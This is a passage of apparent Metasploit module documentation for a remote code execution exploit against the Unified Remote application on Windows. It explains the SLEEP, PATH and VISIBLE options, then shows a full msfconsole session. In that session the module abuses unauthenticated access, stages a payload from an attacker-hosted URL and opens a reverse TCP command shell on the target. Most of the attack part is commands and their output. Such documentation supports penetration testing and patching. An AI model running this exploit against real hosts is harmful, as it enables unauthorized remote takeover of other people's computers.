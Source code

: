 ### SLEEP

The length of time to sleep between each command, this gives the remote program time to process the command on screen.
Defaults to `1` second.

### PATH

Where to temporarily store the payload.  Defaults to `c:\\Windows\\Temp\\`

### VISIBLE

If set to `true`, uses a 'standard' method of typing to the screen. If set to `false`
utilizes a 'pro' feature of unified remote to execute a script in the background.
Defaults to `false`

## Scenarios

### Version 3.11.0.2483 on Windows 10, No authentication, visible false

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-ASvxWyO708Rv4x0j
[*] 2.2.2.2:9512 - Retrieving server config
[+] 2.2.2.2:9512 - No security enabled
[+] 2.2.2.2:9512 - Found account: admin
[+] 2.2.2.2:9512 - Found account: wheres
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Loading Unified.Command
[*] 2.2.2.2:9512 - Updating Unified.Command
[*] 2.2.2.2:9512 - Sending payload
[*] 2.2.2.2:9512 - Executing script
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:50052) at 2022-09-18 19:00:33 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\U4culUYTuG.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\ProgramData\Unified Remote\Remotes\Bundled\Unified\Main\Command>
```
